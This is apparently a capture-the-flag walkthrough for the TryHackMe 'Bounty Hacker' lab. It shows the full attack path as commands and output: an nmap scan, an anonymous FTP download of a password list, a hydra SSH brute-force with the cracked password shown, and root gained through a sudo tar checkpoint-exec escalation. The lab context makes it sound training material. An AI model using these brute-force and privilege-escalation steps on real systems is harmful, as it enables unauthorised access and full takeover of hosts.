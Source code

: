 ![](Images/rCDF5u6.png)
Always start with a nmap scan. 
```
# Nmap 7.91 scan initiated Thu Jun 10 16:35:31 2021 as: nmap -sC -sV -A -oN scans/nmap-output 10.10.55.156
Nmap scan report for 10.10.55.156
Host is up (0.18s latency).
Not shown: 968 filtered ports, 29 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.182
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 10 16:36:32 2021 -- 1 IP address (1 host up) scanned in 60.59 seconds

```
We have port 21 FTP which is anonymous login allowed, 22 SSH with ubuntu running and 80 HTTP open. Let's see whats in the website.

![](Images/web.png)

Nothing interesting from this webpage. 

# Who wrote the task list?
Let's see what we have in FTP server. 
```bash
┌─[visith@parrot]─[~/CTF/thm/bounty-hacker]
└──╼ $ftp 10.10.55.156
Connected to 10.10.55.156.
220 (vsFTPd 3.0.3)
Name (10.10.55.156:visith): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: task.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.07 secs (6.0500 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (123.4317 kB/s)
ftp> exit
221 Goodbye.
```
In task.txt file :
```plain
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
In locks.txt file we found some lists of words looks like passwords.

Answer is the **lin**.
# What service can you bruteforce with the text file found?

Answer must be '**SSH**' any other service we haven't found.

# What is the users password? 

Let's try to bruteforce the ssh service with **hydra**. Here is my command to hydra.

```bash
hydra -l lin -P locks.txt ssh://10.10.55.156:22 | tee scans/hydra-output
```
My hydra output was :
* login: lin 
* password: RedDr4gonSynd1cat3

```plain
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-10 16:50:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.55.156:22/
[22][ssh] host: 10.10.55.156   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-10 16:50:46
```
# user.txt
Let's login into *lin* user.
```bash
┌─[visith@parrot]─[~/CTF/thm/bounty-hacker]
└──╼ $ssh lin@10.10.55.156
The authenticity of host '10.10.55.156 (10.10.55.156)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.55.156' (ECDSA) to the list of known hosts.
lin@10.10.55.156's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{************}
```
# root.txt

Before run any enumeration scripts I like to look into **sudo -l**. Here what I found.

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
**tar** is allowed to run as superuser. Let's see our friend *GTFObins* what got here is link to documentation.
https://gtfobins.github.io/gtfobins/tar/

![](Images/gtfobins.png)

I change this little bit.
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
I change /bin/sh to /bin/bash to get a good looking shell.
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
[sudo] password for lin: 
tar: Removing leading `/' from member names
root@bountyhacker:~/Desktop# bash -p
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls
root.txt
root@bountyhacker:/root# cat root.txt
THM{**********}
```